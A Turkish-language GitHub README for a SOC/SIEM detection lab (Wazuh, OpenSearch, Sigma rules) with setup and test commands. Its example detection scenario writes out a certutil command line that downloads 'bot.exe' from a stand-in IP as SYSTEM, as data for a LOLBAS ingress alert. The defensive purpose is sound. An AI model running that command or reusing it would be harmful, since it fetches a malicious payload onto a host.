

# SOC & SIEM Detection Pipeline Lab (Wazuh, Elastic, Sigma)

[](LICENSE)
[](https://github.com/toprakahmetaydogmus/02-soc-siem-detection-pipeline/actions)
[](https://github.com/SigmaHQ/sigma)
[](#)

Geliştirici: **Toprak Ahmet Aydoğmuş**

---

## 🎯 Proje Amacı ve Kapsamı
Bu laboratuvar; modern Güvenlik Operasyon Merkezleri (SOC) için **Tespit Mühendisliği (Detection Engineering)** süreçlerini simüle eden, uç nokta telemetrilerini toplayan, Sigma kurallarını derleyen ve MITRE ATT&CK etiketleri ile güvenlik alarmları üreten uçtan uca bir SIEM boru hattıdır.

---

## 🏗️ Mimari ve Veri Akışı



---

## 🚀 Temel Özellikler
- **Gerçek Zamanlı Sigma Kural Motoru (`engine/sigma_evaluator.py`):** YAML formatındaki Sigma kurallarını derleyerek canlı telemetri akışlarına regex ve mantıksal sorgular uygular.
- **Wazuh 4.7 & OpenSearch Kümesi (`docker-compose.yml`):** Tek komutla ayağa kaldırılabilen üretim standartlarında SOC laboratuvar ortamı.
- **Otomatik Test Paketi (`tests/test_detection_engine.py`):** Kural false-positive / true-positive oranlarını ölçen unit testler.

---

## 📊 Örnek Tespit Senaryoları

```python
# LOLBAS Certutil Ingress Tespiti Örneği
Malicious_Event = {
    "host": "srv-prod01",
    "command_line": "certutil.exe -urlcache -split -f http://198.51.100.23/bot.exe",
    "user": "SYSTEM"
}
# Çıktı: ALERT [HIGH]: Suspicious LOLBAS Certutil Ingress (MITRE: T1105)
```

---

## ⚡ Hızlı Başlangıç & Doğrulama

```bash
# 1. Depoyu klonlayın
git clone https://github.com/toprakahmetaydogmus/02-soc-siem-detection-pipeline.git
cd 02-soc-siem-detection-pipeline

# 2. Testleri koşturun
python -m unittest discover tests/

# 3. Kural motorunu bağımsız çalıştırın
python engine/sigma_evaluator.py

# 4. (İsteğe bağlı) Wazuh ve OpenSearch konteynerlerini başlatın
docker compose up -d
```

---

## 📜 Lisans
MIT License - **Toprak Ahmet Aydoğmuş**
